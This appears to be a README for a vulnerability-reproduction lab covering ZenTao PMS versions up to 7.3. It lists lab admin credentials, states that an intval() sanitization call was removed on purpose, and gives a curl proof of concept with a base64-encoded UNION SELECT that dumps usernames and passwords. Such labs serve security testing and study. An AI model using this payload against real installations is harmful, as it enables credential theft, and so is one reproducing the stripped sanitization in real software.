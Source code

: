 ## 环境说明

* src/zentaopms/7.3

  * 后台地址

    http://172.17.0.2/admin/privilege.php?act=login

  * 管理员账号

    admin/admin123

  * 去除补丁

    删除了./flow.php line 2137的intval函数，用于复现前一版本的SQL注入漏洞



## zentaoPMS SQL注入漏洞

测试镜像

* src/zentaopms/7.3

影响版本

* zentaopms <=  7.3

参考链接

* [禅道项目管理软件 SQL注入漏洞（无需登录）](https://www.wooyun.pro/bugs/wooyun-2015-0151486)

Poc

```shell
curl "http://172.17.0.2/www/block-main.html?mode=getblockdata&blockid=task&param=eyJhY2NvdW50IjoiYWRtaW4iLCJ0eXBlIjoiaWQ9LTEgVU5JT04gU0VMRUNUIDEsMiwzLDQsNSw2LGFjY291bnQsOCw5LHBhc3N3b3JkLDEsMiwzLDQsNSw2LDcsOCw5LDAsMSwyLDMsNCw1LDYsNyw4LDksMCwxLDIsMyw0LDUsNiw3LDggRlJPTSB6dF91c2VyIyJ9"
```

成功会返回系统user的账号密码，param参数为注入点，可用sqli-exp-gen.php来生成
